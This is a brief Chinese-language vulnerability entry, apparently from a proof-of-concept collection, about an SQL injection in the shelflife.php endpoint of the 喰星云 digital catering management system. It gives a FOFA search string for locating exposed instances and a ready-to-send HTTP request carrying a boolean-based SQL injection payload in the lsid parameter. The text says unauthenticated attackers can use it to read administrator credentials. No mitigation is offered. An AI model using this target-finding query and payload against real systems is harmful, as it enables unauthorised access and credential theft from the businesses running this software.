 ## 喰星云-数字化餐饮服务系统shelflife.php存在SQL注入漏洞

喰星云·数字化餐饮服务系统 shelflife.php 接口处存在SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞读取后台管理员账号密码登录凭证信息，导致后台权限被控，造成信息泄露，使系统处于极不安全的状态。

## fofa

```yaml
body="tmp_md5_pwd"
```

## poc

```java
GET /logistics/home_warning/php/shelflife.php?do=getList&lsid=(SELECT+(CASE+WHEN+(6191=6193)+THEN+%27%27+ELSE+(SELECT+9641+UNION+SELECT+2384)+END)) HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
```



